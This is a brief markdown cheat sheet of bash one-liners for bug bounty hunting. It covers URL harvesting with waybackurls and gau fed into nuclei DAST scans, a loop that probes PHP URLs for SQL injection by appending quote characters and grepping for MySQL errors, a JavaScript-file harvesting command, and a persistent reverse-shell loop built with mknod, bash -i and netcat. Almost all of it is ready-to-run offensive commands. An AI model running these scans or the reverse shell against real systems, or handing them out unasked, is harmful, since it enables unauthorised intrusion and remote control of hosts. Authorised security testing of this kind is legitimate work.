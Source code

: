 ## Simple 1Line #BASH For #BugBounty.

```
waybackurls TARGET.COM | grep = | tee urls.txt | nuclei -dast
```

```
gau TARGET.COM | grep = | tee urls.txt | nuclei -dast
```


## 1Line BASH To Perform #SQL_Injection For BugBounties.

```cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable to SQLI Injection\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done```


## LazyEgg - Hunting JS Files.

```waybackurls target | grep '\.js$' | awk -F '?' '{print $1}' | sort -u | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazyegg[.]py "{}" --js_urls --domains --ips'```


## Reverse Shell Bash Loop.

```while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done```
